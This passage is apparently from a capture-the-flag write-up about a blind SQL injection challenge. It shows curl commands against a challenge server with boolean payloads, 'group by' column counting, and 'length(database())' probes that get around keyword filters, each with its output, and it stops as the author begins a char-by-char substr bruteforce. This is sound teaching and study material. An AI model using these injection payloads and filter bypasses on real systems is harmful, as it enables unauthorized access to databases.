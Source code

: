 We can also see there are loops which doesn't make sense. we can't get flag any way through id it seems. So we have to identify and exploit sql injection.

# Approach:
I started identifying injection as we don't see any prepared statement like ``select * from users where id=?`` 

As ``and, or`` are blocked i can use ``&&`` to check injection quickly.

```css
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 %26%26 1=2" 2>/dev/null | tail -1 
Hello 
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 %26%26 1=1" 2>/dev/null | tail -1 
Hello guest
```

As ``order by`` blocked i can go ahead with ``group by`` or ``having`` to identify the number of columns that are selected in the query.

```css
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 group by 1" 2>/dev/null | tail -1 
Hello guest
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 group by 3" 2>/dev/null | tail -1 
Hello guest
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 group by 4" 2>/dev/null | tail -1 

root@MrR3boot:~# 
```

As you see we got 3 columns that are selected in the query. I tried long enough time to bypass the union select regex but i couldn't (but i did in the end) so i went identifying altenative ways like using ``exists``

```css
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 %26%26 exists(select database())" 2>/dev/null | tail -1 
Hello guest
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 %26%26 length(database())<12" 2>/dev/null | tail -1 
Hello guest
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 %26%26 length(database())<10" 2>/dev/null | tail -1 
Hello 
root@MrR3boot:~# curl -X POST http://45.77.240.178:8002/index.php -d "id=2 %26%26 length(database())=10" 2>/dev/null | tail -1 
Hello guest
```
So quickly i was able to find the length of database which is ``10``. Then i started making a script to bruteforce char by char using ``substr`` function in mysql. 
